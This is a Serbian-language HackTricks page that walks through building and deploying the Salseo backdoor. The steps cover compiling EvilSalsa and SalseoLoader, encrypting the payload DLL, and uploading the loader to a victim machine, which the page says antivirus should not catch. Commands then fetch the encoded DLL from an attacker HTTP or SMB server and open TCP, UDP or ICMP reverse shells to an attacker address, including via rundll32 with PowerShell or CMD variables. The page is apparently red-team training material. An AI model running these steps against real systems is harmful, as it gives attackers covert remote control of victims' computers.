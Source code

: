 # Salseo

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Stručnjak (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Stručnjak (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Kompajliranje binarnih fajlova

Preuzmite izvorni kod sa github-a i kompajlirajte **EvilSalsa** i **SalseoLoader**. Trebaće vam **Visual Studio** instaliran da biste kompajlirali kod.

Kompajlirajte ove projekte za arhitekturu Windows sistema na kojem ćete ih koristiti (ako Windows podržava x64, kompajlirajte ih za tu arhitekturu).

Možete **izabrati arhitekturu** unutar Visual Studio u **levom "Build" Tab-u** u **"Platform Target".**

(\*\*Ako ne možete pronaći ove opcije, pritisnite na **"Project Tab"** a zatim na **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (132).png>)

Zatim, izgradite oba projekta (Build -> Build Solution) (Unutar logova će se pojaviti putanja izvršnog fajla):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Priprema zadnjih vrata

Prvo, trebaće vam da enkodujete **EvilSalsa.dll.** Da biste to uradili, možete koristiti python skriptu **encrypterassembly.py** ili možete kompajlirati projekat **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Sada imate sve što vam je potrebno da izvršite ceo Salseo postupak: **enkodirani EvilDalsa.dll** i **binarni fajl SalseoLoader.**

**Otpremite binarni fajl SalseoLoader.exe na mašinu. Ne bi trebalo da budu otkriveni od strane bilo kog AV...**

## **Izvršite backdoor**

### **Dobijanje TCP reverznog shell-a (preuzimanje enkodiranog dll-a putem HTTP-a)**

Zapamtite da pokrenete nc kao osluškivač reverznog shella i HTTP server kako biste poslužili enkodirani evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Dobijanje UDP reverse shell-a (preuzimanje enkodovanog dll-a preko SMB-a)**

Zapamtite da pokrenete nc kao osluškivač reverse shell-a, i SMB server da posluži enkodovani evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Dobijanje ICMP reverznog šela (enkodirani dll već unutar žrtve)**

**Ovog puta vam je potreban poseban alat na klijentu da primi reverzni šel. Preuzmite:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Onemogućavanje ICMP odgovora:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Izvršite klijenta:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Unutar žrtve, izvršimo salseo stvar:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kompajliranje SalseoLoader-a kao DLL izvođenjem glavne funkcije

Otvorite projekat SalseoLoader koristeći Visual Studio.

### Dodajte pre glavne funkcije: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Instalirajte DllExport za ovaj projekat

#### **Alati** --> **NuGet Package Manager** --> **Upravljanje NuGet paketima za rešenje...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Pretražite DllExport paket (koristeći karticu Pretraži) i pritisnite Instaliraj (i prihvatite iskačući prozor)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

U vašem projekt folderu pojaviće se fajlovi: **DllExport.bat** i **DllExport\_Configure.bat**

### **De**instalirajte DllExport

Pritisnite **Deinstaliraj** (da, čudno je, ali verujte mi, neophodno je)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Izađite iz Visual Studio-a i izvršite DllExport\_configure**

Jednostavno **izađite** iz Visual Studio-a

Zatim, idite u vaš **SalseoLoader folder** i **izvršite DllExport\_Configure.bat**

Izaberite **x64** (ako ćete ga koristiti unutar x64 okruženja, to je bio moj slučaj), izaberite **System.Runtime.InteropServices** (unutar **Namespace for DllExport**) i pritisnite **Primeni**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Otvorite projekat ponovo sa Visual Studio-om**

**\[DllExport]** više ne bi trebalo da bude označen kao greška

![](<../.gitbook/assets/image (8) (1).png>)

### Izgradite rešenje

Izaberite **Tip izlaza = Biblioteka klasa** (Projekat --> SalseoLoader Properties --> Application --> Tip izlaza = Biblioteka klasa)

![](<../.gitbook/assets/image (10) (1).png>)

Izaberite **x64 platformu** (Projekat --> SalseoLoader Properties --> Build --> Ciljna platforma = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Da biste **izgradili** rešenje: Build --> Izgradi rešenje (Unutar konzole za izlaz pojaviće se putanja nove DLL datoteke)

### Testirajte generisanu Dll

Kopirajte i nalepite Dll gde želite da je testirate.

Izvršite:
```
rundll32.exe SalseoLoader.dll,main
```
Ako se ne pojavi greška, verovatno imate funkcionalnu DLL!!

## Dobijanje shell-a korišćenjem DLL-a

Ne zaboravite da koristite **HTTP** **server** i postavite **nc** **listener**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Učite i vežbajte hakovanje AWS-a: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
